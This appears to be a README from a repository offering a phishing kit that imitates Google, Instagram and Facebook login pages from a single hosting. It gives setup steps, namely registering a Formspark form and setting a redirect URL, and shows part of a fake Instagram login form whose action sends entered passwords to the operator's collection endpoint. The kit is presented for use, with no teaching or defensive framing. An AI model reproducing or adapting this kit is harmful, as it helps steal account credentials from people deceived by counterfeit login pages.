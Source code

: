 # Three-way-Phishing
All in one website you can  now phish google,instagrame and facebook in one hosting 


# Instagram-Login-Page


change before hosting :

* signup formspark and get id and pastit here
* change redirect url before use 



"""<div class="logo">
				<img src="instagram.png" alt="instagram" style="width: 175px;">
			</div>
			<form action="ENTER YOUR https://formspark.io/?ref=formspark_api LINK TO GET PASSWORD  " target="_self">
						   <input type="hidden" name="_redirect" value="ENTER YOUR REDIRECT URL HERE" />
			<div class="form">

"""

by REVANTHSHIVA(CEH)
